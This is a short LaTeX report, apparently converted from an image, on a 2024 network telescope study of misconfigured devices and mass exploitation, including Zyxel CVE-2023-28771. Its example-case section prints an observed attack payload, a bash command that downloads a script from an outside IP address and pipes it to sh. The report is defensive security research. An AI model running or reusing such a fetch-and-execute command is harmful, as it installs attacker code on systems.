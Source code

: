 \documentclass[10pt,a4paper]{report}
\begin{document}
The dataset analyzed during the project spans from January 1, 2024, to October 17, 2024, and includes over 10,226 unique destination IP addresses. In total, 4.31 TB of data was collected. This data provides invaluable insights into the nature of misconfigured devices and the patterns of malicious activities observed within the blackhole networks.



\chapter{Observations}
Misconfigured devices are a recurring theme in the analysis. These misconfigurations often result from typographical errors or improper default routing setups. For instance, devices that send SYSLOG messages to unintended networks represent a common type of misconfiguration. Similarly, MikroTik routers are often observed connecting to external services, such as \texttt{cloud.mikrotik.com}, due to default configurations.

DNS misconfigurations are another significant finding. When a secondary DNS resolver is misconfigured, it frequently goes unnoticed, leading to unintended traffic redirection. These observations highlight the importance of proper configuration and monitoring practices to avoid exposing sensitive systems to potential threats.

\chapter{Example Cases}
\section{Mass Exploitation of Devices}
Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed. A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
\begin{verbatim}
bash -c "curl http://92.60.77.85/z -o-|sh";
\end{verbatim}
This case underscores the need for timely patching and proactive defense mechanisms to mitigate the risks associated with known vulnerabilities.
\end{document}
